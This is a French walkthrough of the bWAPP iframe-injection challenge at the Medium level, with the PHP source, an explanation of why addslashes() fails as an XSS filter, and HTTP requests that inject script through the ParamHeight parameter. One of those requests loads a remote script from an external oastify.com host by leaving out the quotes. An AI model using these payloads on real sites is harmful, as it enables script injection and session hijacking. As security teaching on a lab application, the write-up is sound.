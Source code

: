 # Niveau "Medium"

## Exploitation

La page du challenge permet de charger une `<iframe></iframe>`. L'URL admet 3 paramètres :&#x20;

* le premier, `ParamURL`, est l'URL cible de l'iframe, ayant comme valeur par défaut "robots.txt"
* le second et la troisième, `ParamWidth` et `ParamHeight`, sont la taille en largeur et en hauteur de l'iframe, ayant comme valeur par défaut "250"

Ici, modifier l'URL de l'iframe via le paramètre `ParamURL` ne semble pas fonctionner. Qu'importe sa valeur, le fichier "robots.txt" est affiché :

![](<../../../../../.gitbook/assets/image (8).png>)

Naturellement, l'injection via le paramètre d'URL `ParamUrl` ne fonctionne donc également pas. Il faut s'intéresser aux deux autres paramètres présents dans l'URL, qui eux peuvent être modifiés et ne semble pas être assainis :&#x20;

```http
GET /bWAPP/iframei.php?ParamUrl=whatever.txt&ParamWidth=250&ParamHeight=250%22%3E%3C/iframe%3E%3Cscript%3Ealert(1)%3C/script%3E%3Ciframe%20src= HTTP/1.1
Host: 192.168.56.116
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie: PHPSESSID=36ce7aa0711c5215358577749d068476; security_level=1
Connection: close
```

![](<../../../../../.gitbook/assets/image (21).png>)

## Analyse du code source

L'application spécifie la valeur du `src` de l'iframe directement à la valeur "robots.txt" et ne tient pas compte de la valeur présente dans le paramètre d'URL `ParamUrl`. Ce n'est pas le cas des paramètres concernant la taille de l'iframe :&#x20;

{% code title="iframei.php" %}
```php
<?php
  if($_COOKIE["security_level"] == "1" || $_COOKIE["security_level"] == "2") {
?>
    <iframe frameborder="0" src="robots.txt" height="<?php echo xss($_GET["ParamHeight"])?>" width="<?php echo xss($_GET["ParamWidth"])?>"></iframe>
<?php
  }
?>
```
{% endcode %}

La méthode `xss()` est un `switch` exécutant une certaine méthode selon le niveau de sécurité actuel (1 dans le cas du niveau "Medium") : &#x20;

{% code title="iframei.php" %}
```php
function xss($data) {
  switch($_COOKIE["security_level"]) {
    case "0" :
      $data = no_check($data);      
      break;
    case "1" :
      $data = xss_check_4($data);
      break;
    case "2" :
      $data = xss_check_3($data);
      break;
    default :
      $data = no_check($data);
      break;   
  }

  return $data;
}
```
{% endcode %}

La méthode `xss_check_4()`, qui est censée assainir les paramètres renseignés par l'utilisateur, est exécutée :&#x20;

{% code title="functions_external.php" %}
```php
function xss_check_4($data) {
    // addslashes - returns a string with backslashes before characters that need to be quoted in database queries etc.
    // These characters are single quote ('), double quote ("), backslash (\) and NUL (the NULL byte).
    // Do NOT use this for XSS or HTML validations!!!

    return addslashes($data);
}
```
{% endcode %}

La méthode `addslashes()` permet d'échapper (en ajoutant un anti-slash) les caractères guillemets simples ( ' ), guillemets doubles ( " ), antislash (\\) et l'octet NUL :

![](<../../../../../.gitbook/assets/image (5) (1).png>)

Cela peut poser problème lorsque l'injection tente d'appeler un script externe par exemple :&#x20;

```http
GET /bWAPP/iframei.php?ParamUrl=whatever.txt&ParamWidth=250&ParamHeight=250%22%3E%3C/iframe%3E%3Cscript+src=%22https://zjm4zwo6g15m5kif9uvage7al1rrfg.oastify.com/xss.js%22%3E%3C/script%3E%3Ciframe%20src= HTTP/1.1
Host: 192.168.56.116
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie: PHPSESSID=36ce7aa0711c5215358577749d068476; security_level=1
Connection: closeHTTP
```

![](<../../../../../.gitbook/assets/image (31).png>)

Le contournement est assez simple ici puisqu'il suffit de supprimer les guillemets, le navigateur va les ajouter automatiquement :&#x20;

```http
GET /bWAPP/iframei.php?ParamUrl=whatever.txt&ParamWidth=250&ParamHeight=250%22%3E%3C/iframe%3E%3Cscript+src=http://zjm4zwo6g15m5kif9uvage7al1rrfg.oastify.com/xss.js%3E%3C/script%3E%3Ciframe%20src= HTTP/1.1
Host: 192.168.56.116
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie: PHPSESSID=36ce7aa0711c5215358577749d068476; security_level=1
Connection: close
```

![](<../../../../../.gitbook/assets/image (26).png>)

